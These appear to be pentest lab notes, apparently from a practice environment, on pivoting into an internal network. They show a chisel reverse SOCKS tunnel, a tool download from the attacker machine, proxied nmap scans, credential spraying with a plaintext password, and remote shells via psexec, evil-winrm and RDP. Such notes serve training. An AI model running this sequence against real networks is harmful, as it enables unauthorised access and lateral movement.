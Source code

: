get around the firewall using chisel. now we find that we can see ports open on some of the internal machines
```bash
cp /home/kali/beyond/chisel.exe /home/kali/medtech
cd C:\TEMP
iwr -uri http://192.168.45.242:8000/chisel.exe -Outfile chisel.exe

# from kali
chisel server --port 8081 --reverse
sudo tcpdump -nvvvXi tun0 tcp port 8081

# from windows
.\chisel.exe client 192.168.45.242:8081 R:socks

# from kali
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 22,80,8000,445,3306,3389 172.16.214.10-14 172.16.214.82-83

sudo proxychains -q nmap -sT -Pn -p 22,80,8000,445,3306,3389 172.16.214.11

# can we use winrm but it has wacky shell
sudo proxychains -q nmap -sT -Pn -p 5985,5986 172.16.214.11

# use impacket-psexec 
proxychains impacket-psexec joe:Flowers1@172.16.214.11
```
Ports open
172.16.214.82 - 3389, 445
172.16.214.83 - 445
172.16.214.14 - 22
172.16.214.13 - 445
172.16.214.12 - 3389, 445
172.16.214.11 - 445
172.16.214.10 - 445
```
proxychains crackmapexec smb 172.16.214.10-14 172.16.214.82-83 -u joe -p 'Flowers1' --continue-on-success
```
- Discover that smb signing is off on FILES02 (172.16.214.11) ,DEV04(172.16.214.12) and PROD01(172.16.214.13) meaning we could do a relay attack
- joe is admin  on FILES02 (172.16.214.11)
- joe's login also works on CLIENT01(172.16.214.82) and DC01 (172.16.214.10)
```
sudo proxychains xfreerdp /v:172.16.214.82 /u:joe /p:Flowers1 /cert-ignore /compression /auto-reconnect /d:medtech.com

sudo proxychains rdesktop 172.16.214.82 -u joe -p Flowers1

# joe has READ/WRITE on TEMP and C shares
proxychains crackmapexec smb 172.16.214.11 -u joe -p "Flowers1" --shares

# connect to host where joe is admin
proxychains evil-winrm -i 172.16.214.11 -u joe -p "Flowers1"

# use impacket-psexec instead as evilwinrm does not work
proxychains impacket-psexec joe:Flowers1@172.16.214.11
```
